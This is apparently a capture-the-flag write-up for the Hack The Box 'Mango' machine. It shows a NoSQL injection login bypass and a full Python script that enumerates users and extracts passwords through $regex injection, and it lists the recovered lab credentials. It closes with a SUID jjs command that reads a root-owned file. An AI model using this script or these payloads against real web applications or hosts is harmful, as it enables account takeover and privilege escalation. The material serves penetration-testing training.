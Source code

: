 # Mango

## Preparation

Added IP to /etc/hosts as "mango.htb"

## Recon

Starting with nmap
```
nmap -sV -sC mango.htb
```

### HTTPS (443/TCP)

Domain name in cert - staging-order.mango.htb
Image refernce in source code - https://github.com/MangoDevelopers/mango-new-logo/raw/master/NewMango.jpg
	MangoDB?
Search Engine Screen
	No reflective input
	Googling "MongoDB SQL Injection" brings up a lot of results as NoSQL, testing those

It's using virtual host routing, put staging-order.mango.htb in /etc/hosts and visiting it returns a login screen

Auth bypass from PayloadAllTheThings worked: username[$ne]=toto&password[$ne]=toto

email found: admin@mango.htb

I can enumerate users by using username=toto&password[$ne]=toto and replacing the username value, if it returns 302 then the username is valid

## Cracking the Perimeter

Used cewl to build a wordlist of users, added the following
```
admin
Mango
mango
Sweet
sweet
Juicy
juicy
Admin
admin
admin.htb
```
```
import json, requests, urllib3, string, urllib

host = str("http://staging-order.mango.htb/index.php")
header = {'content-type': 'application/x-www-form-urlencoded'}
userlist = []
passlenlist = []
passlist = []
chars = string.ascii_letters + string.digits + string.punctuation
users = open('users.txt','r')

for user in users:
	user = user.rstrip()
	payload = str("username=%s&password[$ne]=admin&login=login" % user)
	r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
	if r.status_code == 302:
		print(str("Found user: %s" % user))
		userlist.append(user)

for user in userlist:
	for i in range(1,64):
		payload = str("username=%s&password[$regex]=^.{%s}&login=login" % (user,str(i)))
		r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
		if r.status_code == 200:
			print(str("%s's password is %s characters" % (user,i-1)))
			passlenlist.append(i-1)
			break

for user in userlist:
	password = str("")
	passwordlen = passlenlist[int(userlist.index(str(user)))]
	while int(len(password)) <= int(passwordlen):
		for c in chars:
			if c not in ['*','+','.','?','|','&']:
				payload = str("username=%s&password[$regex]=^%s&login=login" % (str(user),str(password + c)))
				r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
				print(str("I tried %s for %s" % (password + c, user)))
				if r.status_code == 302:
					password += c
				if int(len(password)) == int(passwordlen):
					passlist.append(password)
					continue

passlist = list(dict.fromkeys(passlist))
for i in range(0,len(userlist)):
	print(str("%s's password is %s" % (userlist[i],passlist[i])))
```

admin and mango are users (case sensitive)
mango's password is `h3mXK8RhU~f{]f5H`
admin's password is `t9KcS3>!0B#2`

`ssh:mango:h3mXK8RhU~f{]f5H`
`local:admin:t9KcS3>!0B#2`

## Privilege Escalation

SUID on jjs, root owns, admin can run

`echo 'var BufferedReader = Java.type("java.io.BufferedReader");var FileReader = Java.type("java.io.FileReader");var br = new BufferedReader(new FileReader("/root/root.txt"));while ((line = br.readLine()) != null) { print(line); }' | jjs`
